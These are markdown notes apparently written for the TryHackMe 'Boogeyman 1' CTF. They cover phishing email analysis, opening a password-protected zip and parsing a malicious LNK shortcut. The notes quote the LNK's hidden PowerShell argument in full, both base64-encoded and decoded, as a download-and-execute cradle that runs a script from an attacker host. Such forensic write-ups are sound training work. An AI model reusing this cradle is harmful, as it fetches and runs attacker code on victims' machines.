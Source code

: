 ##### DISCLAIMER: this is refined by AI using already EXISTING NOTES I made myself to look nicer and more accurate in writing.

# Boogeyman 1 CTF Notes

**Overview**:  
These notes document my investigation process for the Boogeyman 1 Capture The Flag (CTF) challenge on TryHackMe. The challenge involved analyzing a phishing attack, investigating malicious PowerShell activity, and performing network forensics to uncover data exfiltration. The notes showcase skills in email analysis, command-line tools (`unzip`, `lnkparse`, `jq`), PowerShell log parsing, and network analysis with Wireshark and Tshark. The Tshark section was inspired by a TryHackMe walkthrough, which helped deepen my familiarity with the tool.

**Skills Demonstrated**:  
- Email and phishing analysis  
- File extraction and analysis (`unzip`, `lnkparse`, CyberChef)  
- PowerShell log parsing (`jq`, `grep`)  
- Network forensics (Wireshark, Tshark)  
- Understanding of malware execution and data exfiltration techniques

**Personal Notes**:  
The attacker used `sq3.exe` to target an SQLite database, likely for data extraction. This is a critical artifact for future investigations.

## Email Investigation

**Phish Email Details**:  
- Sender: `agriffin@bpackaging.xyz`  
- Victim: `julianne.westcott@hotmail.com`

**Zip File Analysis**:  
- Command: `unzip -l Invoice.zip`  
  - **Purpose**: Lists the contents of `Invoice.zip` without extracting, revealing a password-protected file named `Invoice_20230103.lnk`.

- Found password in email data: `invoice2023!`  
- Command: `unzip -P invoice2023! Invoice.zip`  
  - **Purpose**: Extracts the contents of `Invoice.zip` using the provided password, inflating the file `Invoice_20230103.lnk`.

**LNK File Analysis**:  
- Used `lnkparse` on `Invoice_20230103.lnk` to extract embedded command line arguments:  
  - Encoded command: `-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAYwBrAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`  
  - **Purpose**: `lnkparse` extracts metadata and command line arguments from the Windows shortcut (.lnk) file.

- Decoded using CyberChef with 'From Base64' and 'Remove null bytes':  
  - Result: `iex (new-object net.webclient).downloadstring('http://files.bpackaging.xyz/update')`  
  - **Purpose**: The decoded PowerShell command uses `Invoke-Expression` (`iex`) to execute a script downloaded from `http://files.bpackaging.xyz/update` using the `net.webclient` object, likely retrieving and running malicious code.
